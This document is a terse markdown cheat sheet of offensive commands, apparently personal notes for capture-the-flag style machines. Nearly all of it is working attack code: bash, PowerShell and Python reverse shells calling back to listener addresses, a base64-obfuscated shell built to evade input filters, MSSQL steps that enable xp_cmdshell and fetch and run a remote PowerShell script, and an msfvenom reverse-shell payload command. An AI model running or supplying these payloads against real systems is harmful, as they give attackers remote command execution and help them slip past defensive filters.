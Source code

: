 #Shell encode

``` 
 bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.134/80+0>%261'
bypass shell:  echo "echo $(echo 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'

```
# exploittation
 go to insite and run: 
``` 
 EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"

```

ReverseShell:
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream =
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =
$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 |
Out-String );$sendback2 = $sendback + "# ";$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyt
e.Length);$stream.Flush()};$client.Close()
``` 
save the shell.ps1 file. then using the python to download 

From the sql cmd: 

xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://IP/shell.ps1\");"

# msf venom

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.37 LPORT=53 -f exe -o reverse64.exe
```
# python

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.6",1233));
dup2(s.fileno(),0); 
dup2(s.fileno(),1); 
dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```
